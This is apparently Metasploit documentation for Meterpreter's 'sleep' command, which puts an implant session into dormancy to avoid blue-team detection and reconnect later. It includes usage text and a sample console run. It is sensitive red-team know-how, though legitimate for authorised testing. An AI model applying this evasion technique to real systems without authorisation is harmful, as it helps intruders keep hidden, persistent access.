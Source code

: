 There comes a time in the life of many a Meterpreter session when it needs to go quiet for a while. There are many reasons that this might be needed:

* During an assessment, the blue team may have detected suspicious activity, and communications is too noisy.
* Long term engagements require long-term shells, but the red team isn't awake 24-hours a day, and so keeping the communications active the whole time doesn't make sense.
* Users may just want to reduce the number of shells they have to worry about at a given time and want some of them to go away for a while.

For these reasons, and more, the new `sleep` command in Meterpreter was created. This document explains what it is and how it works.

## Silent shells

Noise during an assessment is not necessarily a good thing. With the advent of Meterpreter's new support and control of [[multiple transports|./Meterpreter-Transport-Control.md]], Meterpreter has the ability to change transports and therefore change the traffic pattern for communication. However, sometimes this isn't enough and sometimes users want to be able to shut the session off temporarily.

The `sleep` command is designed to do just that: make the current Meterpreter session go to sleep for a specified period of time, and the wake up again once that time has expired.

During this dormant period, no socket is active, no requests are made, and no responses are given. From the perspective of Metasploit it's as if the Meterpreter session doesn't exist.

The interface to the sleep command looks like this:

```
meterpreter > sleep
Usage: sleep <time>

  time: Number of seconds to wait (positive integer)

  This command tells Meterpreter to go to sleep for the specified
  number of seconds. Sleeping will result in the transport being
  shut down and restarted after the designated timeout.
```

As shown, `sleep` expects to be given a single postive integer value that represents the number of seconds that Meterpreter should be silent for. When run, the session will close, and then callback after the elapsed period of time. Given that Meterpreter lives in memory, this lack of communication will make it extremely difficult to track.

The following shows a sample run where Meterpreter is put to sleep for 20 seconds, after which the session reconnects while the handler is still in background:

```
meterpreter > sleep 20
[*] Telling the target instance to sleep for 20 seconds ...
[+] Target instance has gone to sleep, terminating current session.

[*] 10.1.10.35 - Meterpreter session 3 closed.  Reason: User exit
msf exploit(handler) > [*] Meterpreter session 4 opened (10.1.10.40:6005 -> 10.1.10.35:49315) at 2015-06-02 23:00:29 +1000

msf exploit(handler) > sessions -i 4
[*] Starting interaction with 4...

meterpreter > getuid
Server username: WIN-S45GUQ5KGVK\OJ
```

## Under the hood

The implementation of this command was made rather simple as a result of the work that was done to support multiple transports. To facilitate this command, all that happens is:

* A transport change is invoked, but the transport that is selected as the "next" transport is the same as the currently active one.
* The transport is shut down and the session is closed.
* The timeout value is passed to a call to `sleep()`, forcing the main thread of execution to pause for the allotted period of time.
* Execution resumes, and the resumption of connectivity continues in the usual transport switching fashion, only in this case, the transport that is fired up is the one that was just shut down.

In short, the `sleep` command is a transport switch to the current transport with a delay. Simple!

